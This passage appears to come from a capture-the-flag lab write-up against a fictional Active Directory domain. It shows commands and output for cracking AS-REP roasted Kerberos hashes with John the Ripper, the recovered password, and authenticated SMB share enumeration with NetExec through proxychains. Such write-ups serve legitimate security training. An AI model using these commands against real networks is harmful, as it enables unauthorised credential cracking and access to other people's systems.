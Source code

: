 The TGTs will be saved in `asrep.out` (depends on the argument passed to `--asreproast`), and we can use `John the Ripper` to crack them.

```
john --wordlist=/usr/share/wordlists/rockyou.txt asrep.out
Using default input encoding: UTF-8
Loaded 3 password hashes with 3 different salts (krb5asrep, Kerberos 5 AS-REP etype 17/18/23 [MD4 HMAC-MD5 RC4 / PBKDF2 HMAC-SHA1 AES 128/128 AVX 4x])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
jessisnaughty4u! ($krb5asrep$23$Court_Jester_13@ASYNC.EMPIRE) 
```

### SMB Enumeration (again)

Using the newly obtained credentials, we can attempt to access the SMB shares once more - and find that we now have READ access to the `Castle_Guards_Schedule` share.

```
proxychains -q nxc smb targets.txt -u 'Court_Jester_13' -p 'jessisnaughty4u!' --shares
SMB         10.2.10.11      445    SOUTHERN-TOWER   [*] Windows Server 2022 Build 20348 x64 (name:SOUTHERN-TOWER) (domain:async.empire) (signing:False) (SMBv1:False)                                                                                                                                                             
SMB         10.2.30.51      445    KING-DC          [*] Windows Server 2022 Build 20348 x64 (name:KING-DC) (domain:async.empire) (signing:True) (SMBv1:False) 
SMB         10.2.10.11      445    SOUTHERN-TOWER   [+] async.empire\Court_Jester_13:jessisnaughty4u! 
SMB         10.2.30.51      445    KING-DC          [+] async.empire\Court_Jester_13:jessisnaughty4u! 
SMB         10.2.10.11      445    SOUTHERN-TOWER   [*] Enumerated shares
SMB         10.2.10.11      445    SOUTHERN-TOWER   Share           Permissions     Remark
SMB         10.2.10.11      445    SOUTHERN-TOWER   -----           -----------     ------
SMB         10.2.10.11      445    SOUTHERN-TOWER   ADMIN$                          Remote Admin
SMB         10.2.10.11      445    SOUTHERN-TOWER   C$                              Default share
SMB         10.2.10.11      445    SOUTHERN-TOWER   Castle_Guards_Schedule READ            Guard schedule for castle servants
SMB         10.2.10.11      445    SOUTHERN-TOWER   IPC$            READ            Remote IPC
SMB         10.2.30.51      445    KING-DC          [*] Enumerated shares
SMB         10.2.30.51      445    KING-DC          Share           Permissions     Remark
SMB         10.2.30.51      445    KING-DC          -----           -----------     ------
SMB         10.2.30.51      445    KING-DC          ADMIN$                          Remote Admin
SMB         10.2.30.51      445    KING-DC          C$                              Default share
SMB         10.2.30.51      445    KING-DC          IPC$            READ            Remote IPC
SMB         10.2.30.51      445    KING-DC          NETLOGON        READ            Logon server share 
SMB         10.2.30.51      445    KING-DC          SYSVOL          READ            Logon server share 
Running nxc against 5 targets ━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━ 100% 0:00:00
```

### Credential Discovery
